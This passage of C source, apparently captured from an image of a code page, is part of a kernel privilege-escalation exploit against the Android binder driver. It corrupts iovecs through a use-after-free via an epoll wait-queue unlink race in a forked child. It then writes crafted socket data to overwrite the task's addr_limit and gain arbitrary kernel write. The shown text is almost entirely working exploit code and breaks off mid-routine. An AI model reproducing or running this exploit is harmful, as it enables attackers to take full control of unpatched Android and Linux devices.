 ```c
    //
    INFO("[+] Setting up iovecs\n");
    // We want to block after processing the iovec at IOVEC_WQ_INDEX,
    // because then, we can trigger the unlink operation and get the
    // next iovecs corrupted to gain scoped write.
    mmap4gbAlignedPage();
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *) 0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    //
    // Prepare the data buffer that will be written to socket
    // Setting addr_limit to 0xFFFFFFFFFFFFFFFF in arm64
    // will result in crash because of a check in do_page_fault
    // However, x86_64 does not have this check. But it's better
    // to set it to 0xFFFFFFFFFFFFFFFE so that this same code can
    // be used in arm64 as well.
    //
    static uint64_t finalSocketData[] = {
            0x1,                    // iovecStack[IOVEC_WQ_INDEX].iov_len
            0x41414141,             // iovecStack[IOVEC_WQ_INDEX + 1].iov_base
            0x8 + 0x8 + 0x8 + 0x8,  // iovecStack[IOVEC_WQ_INDEX + 1].iov_len
            (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT), // iovecStack[IOVEC_WQ_INDEX + 2].iov_base
            0xFFFFFFFFFFFFFFFE      // addr_limit value
    };
    //
    // Prepare the message
    //
    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;
    //
    // Now link the poll wait queue to binder thread wait queue
    //
    linkEventPollWaitQueueToBinderThreadWaitQueue();
    //
    // We should trigger the unlink operation when we
    // have the binder_thread reallocated as iovec array

    // Now fork
    pid_t childPid = fork();
    if (childPid == 0) {
        //
        // child process
        // There is a race window between the unlink and blocking
        // in writev, so sleep for a while to ensure that we are
        // blocking in writev before the unlink happens
        //
        sleep(2);
        //
        // Trigger the unlink operation on the reallocated chunk
        //
        unlinkEventPollWaitQueueFromBinderThreadWaitQueue();
        //
        // Now, at this point, the iovecStack[IOVEC_WQ_INDEX].iov_len
        // and iovecStack[IOVEC_WQ_INDEX + 1].iov_base is clobbered
        //
        // Write rest of the data to the socket so that recvmsg starts
        // processing the corrupted iovecs and we get scoped write and
        // finally arbitrary write
        nBytesWritten = write(sock_fd[1], finalSocketData, sizeof(finalSocketData));
```